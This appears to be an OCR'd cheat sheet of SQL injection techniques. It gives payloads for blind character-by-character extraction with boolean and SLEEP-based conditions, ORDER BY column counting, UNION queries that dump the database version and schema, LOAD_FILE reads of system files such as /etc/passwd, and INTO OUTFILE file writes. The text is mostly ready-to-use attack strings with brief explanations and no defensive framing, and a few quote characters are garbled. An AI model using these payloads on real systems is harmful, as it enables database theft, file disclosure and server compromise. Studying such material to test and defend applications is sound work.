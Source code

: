 * Once we found the injection, we can leak data from the DB by guessing one character at a time as follows:

```
AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)=109
```

* If it is true, we know the db\_name starts with 109(m).
* Ask if the first character of the user is 'a':

```
and if(substring (user(),1,1)=’a’,SLEEP(5),1)--”
```

* Check if the admin table exists:

```
and IF(SUBSTRING ((select 1 from admin limit 0,1),1,1)=1,SLEEP(5),1)
```

* Finding number of columns using ORDER BY
* We can use order by to sort the result by a given column number, if the column does not exist, we will get an error:

```
vuln.php?id=1 order by 9 # This throws no error
vuln.php?id=1 order by 10 # This throws error
```

* MySql UNION code execution
* Joins the result of two queries
* Two queries should return the same # of columns.
* Data-types in columns of the select must be of the same orcompatible type.
* Once you have the right number of columns (i.e. 3) you can find the mysql version:

```
UNION SELECT @@version,NULL, NULL#'
```

* mysql users:

```
UNION SELECT table_schema,NULL,NULL FROM information_schema.columns#'
```

* If the result displays garbage from the first query, you can add a false condition to only show the union result AND 1=0 UNION...
* Read files

```
AND 1=0 UNION SELECT LOAD_FILE('C:\\boot.ini'),NULL,NULL #'
```

* Write files

```
AND 1=0 UNION SELECT 'bad content',NULL,NULL INTO OUTFILE 'C:\\random_file.txt' #'
```

* Other payloads:

```
-1 union all select @@version --
1 union SELECT user FROM mysql.user
1 union select 'foo' into outfile '/tmp/foo'
1 union select load_file('/etc/passwd')
```
